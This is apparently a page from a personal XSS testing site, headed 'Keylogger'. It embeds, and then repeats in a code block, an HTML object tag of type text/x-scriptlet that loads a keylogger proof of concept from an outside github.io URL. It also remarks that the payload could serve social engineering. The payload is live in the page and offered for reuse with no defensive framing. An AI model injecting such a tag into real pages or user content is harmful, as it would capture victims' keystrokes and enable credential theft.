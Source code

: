 ## [XSS Testing](/xss/) / Keylogger

### Example

Keys will be logged when focused on the element, not sure how useful this is. except for social engineering techniques.

<pre id="asd"></pre>

<object style="background: #666;" type="text/x-scriptlet" data="https://defektive.github.io/xss/keylogger-poc.html"></object>

#### Example Used Above
```html

<object style="background: #666;" type="text/x-scriptlet" data="https://defektive.github.io/xss/keylogger-poc.html"></object>

```

